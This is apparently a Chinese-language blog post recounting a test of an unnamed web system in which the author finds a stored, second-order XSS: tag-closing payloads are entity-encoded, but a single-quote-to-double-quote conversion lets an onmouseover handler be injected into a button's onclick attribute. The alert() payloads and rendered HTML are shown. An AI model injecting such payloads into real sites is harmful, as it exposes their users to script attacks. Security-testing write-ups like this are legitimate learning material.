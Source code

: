```yaml
---
layout: post
title:  记一次测试-二次XSS
category:
- web
tags:
- web
- xss
---
```

### 某系统测试

1. 登录后可以添加用户名称、应用用户等

   ![](/uploads/img/xss/1.png)

2. F12 查看下这两列，是个<td>标签。第一次尝试：对用户名称 aaaa输入处 构造

   ``` html
   <td style="width:96px;display: table-cell;" id="userDisplayName" align="left">aaaaa</td>
   ```

    构造个标签闭合，用户名称、应用用户分别上传如下

    ``` html
    </td><img src='1' onerror='alert(/1/)'><td>
    </td><img src='1' onerror='alert(/2/)'><td>
    ```

3. 上传上去再看，没触发

   ![](/uploads/img/xss/2.png)
    右键编辑html，才发现实体编码了，凉凉。。。
    ``` html
    <td style="width:96px;display: table-cell;" id="userDisplayName" align="left">&lt;/td&gt;&lt;img&nbsp;src='1'&nbsp;onerror='alert(/1/)'&gt;&lt;td&gt;</td>
    ```
    突然间发现，怎么这一行的`应用授权`多了几个符号，好像还错位了，柳暗花明又一村，估计有戏，再看下这部分的编码，有点意思
    ``` html
    <button onclick="javascript:window.location.href=&quot;/tyfwfw/dap/privilege/index.jsp?userId=24685f4b-9c9d-4381-8679-41b66fbd8da3&amp;userName=</td><img src=" 1'="" onerror="alert(/2/)">"'&gt;应用授权</button>
    ```
    原来`href=`中的链接`userName`参数是从应用用户中取值，并且还把单引号替换成了双引号，结果双引号和前面 onclick= 事件的第一个双引号闭合了。
4. 二次构造，应用用户即userName中给值，`aa'/onmouseover='alert(/00xss3/)'`，其中单引号从数据库读出来的时候会被替换成双引号， aa 后面的双引号用来跟`onclick="`的引号闭合，然后对button注册个onmouseover 事件，上传下试试，bingo，成功；
   ![](/uploads/img/xss/3.png)
   看下这次构造出来的编码
    ``` html
    <button onclick="javascript:window.location.href=&quot;/tyfwfw/dap/privilege/index.jsp?userId=218f3ebc-1bb2-4a46-9a58-263878ec1e0d&amp;userName=aa" onmouseover="alert(/00xss3/)" "'="">应用授权</button>
    ```
    标签里面的错误属性好像给忽略掉了，然后又试了下，去掉后面的`</button>`不闭合，浏览器渲染还是没问题
    ``` html
    <button onclick="javascript:window.location.href=&quot;/tyfwfw/dap/privilege/index.jsp?userId=218f3ebc-1bb2-4a46-9a58-263878ec1e0d&amp;userName=aa" onmouseover="alert(/00xss3/)" "'="">应用授权</button>
    ```
    这部分浏览器对便签的处理还需要再熟悉下。。。